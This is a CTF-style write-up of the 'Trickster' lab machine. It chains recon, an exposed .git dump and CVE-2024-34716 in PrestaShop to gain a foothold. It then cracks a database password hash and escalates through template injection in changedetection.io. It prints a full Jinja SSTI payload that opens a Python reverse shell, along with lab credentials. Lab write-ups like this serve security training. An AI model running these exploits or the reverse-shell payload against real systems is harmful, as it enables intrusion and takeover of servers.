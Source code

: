 TRICKSTER SEASON 6 WRITEUP

RECON
----  
Started With a Port Scan 

**Sudo nmap -sS -Pn -T5 -p- $ip | rustscan --ulimit 5000 -a $ip -- -sC -sV**

![image](https://github.com/user-attachments/assets/f63c71de-024f-419b-91b9-eba7520fe500)

Port TCP 22 --> OpenSSH 8.9p1 OPEN

Port TCP 80 --> apache 2.4.52 OPEN

Left port 22 As BruteForce Won't Be the Way, So Stared Investigating port 80

Added trickster.htb to /etc/hosts

![image](https://github.com/user-attachments/assets/69e68c07-2830-4c6a-967a-c4d7bff0f708)

trickster.htb was just a plain static site and sub dir fuzzing came up with nothing of use  
but there was a link to shop.trickster.htb so added that too /etc/hosts and starting investigating

![image](https://github.com/user-attachments/assets/ecb3ecf7-a301-481b-b693-d920dc8bf3ec)

shop.trickster was running prestashop so i started sub dir and sub domain fuzzing

**gobuster dir -w /usr/share/seclists/Discovery/web-content/common.txt -u $url -x html,php,js,pdf,bak,sql -t 40**  
**ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u $url -H "Host: FUZZ.shop.trickster.htb" -fw 314**  

sub domain was a dead end but sub dir gave some good results
i couldnt find the admin dir but it did come up with an exposed .git directory
so i used gitdumper [https://github.com/arthaud/git-dumper]

**python3 gitdumper.py $url git**

After it finished running i found the admin directory was changed too admin634ewutrx1jgitlooaj

Investing http://shop.trickster.htb/admin634ewutrx1jgitlooaj show me it was running
prestashop 8.1.5

searching for some exploits i found it was vuln to CVE-2024-34716, which is a xss vuln in the contact form of the page
which can be chained with an import theme function to install a reverse shell

FOOTHOLD
-----
make email on website too  
**git clone https://github.com/aelmokhtar/CVE-2024-34716.git**


|-inside reverse_shell.php --> change ip to my ip | not needed pre sure  
|  
|-unzip the .zip file --> change the other reverse_shell.php to my ip  
|----Rezip the .zip file, make sure .htaccess is zipped too  
|  
|-inside exploit.py --> change ncat to nc, or install ncat  
|  
|-inside exploit.html --> change baseUrl, too "http://shop.trickster.htb"  
|--change path too "admin634ewutrx1jgitlooaj"  
|---change httpServerIP too attackers IP  
|----change port to whatever port  

Now Start a python server in the dir with the .zip file 
**python3 -m http.server [port]**

Now run the exploit and we will get a foothold as www-data

WWW-DATA --> JAMES
--------------  
After doing some basic priv esc checks, linpeas, sudo -l, checking web directory ect  
nothing of interest came up, so i decided to look harder into the web directory after digging around for a while i found some database creds inside  
/var/www/prestashop/app/config/parameters.php  

ps_user : prest@shop_o

connecting to the db there were a bunch of tables but inside ps_employees i found  
![image](https://github.com/user-attachments/assets/9f575b4e-de98-49d4-a637-74d85fa43299)

so i saved james's hash to my machine then cracked it with hashcat

**hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt**
this gave me james's password for ssh  
james : foreverandalways

JAMES --> ROOT
-------
after getting ssh access to james i did some more checks but nothing came up useful apart from checking the network adaptors i saw a docker ip(172.17.0.1) so i started investigating that  
i did a ping sweep for the /24 range  

**for i in $(seq 1 254);do ping -c 1 172.17.0.$i; done | grep "64 bytes"**
the only other ip that responed was 172.1.0.2

checking out the open connections on the system i was able to see 172.1.0.2:5000

using curl i saw it was running a web server, so i port forwarded it with ssh  
**ssh -L 5000:172.1.0.2:5000 james@$ip**

after heading to the website i saw it was running change-detection v0.45.20 which was vuln to SSTI inside the notification text box

STEPS  

|-Start a Web server on the remote machine  
|--python3 -m http.server 8000  
|  
|-on the change detection site make a new config with the ip being "http://172.1.0.1:8000"  
|--press "Edit > Watch" --> "Notifications" 
|---inside the "Notifications URL List" Enter "get://<attacker-ip>"
|----Inside the Notification Body" Enter   
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"listen_ip\",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}"  
and change the IP and PORT  
then press submit

now where the webserver is running just add any file, then go back to the the website and press "Recheck" 

and we will should have a shell

we will still be inside a docker container but we can get the root password from "history"

root : #YouC4ntCatchMe#






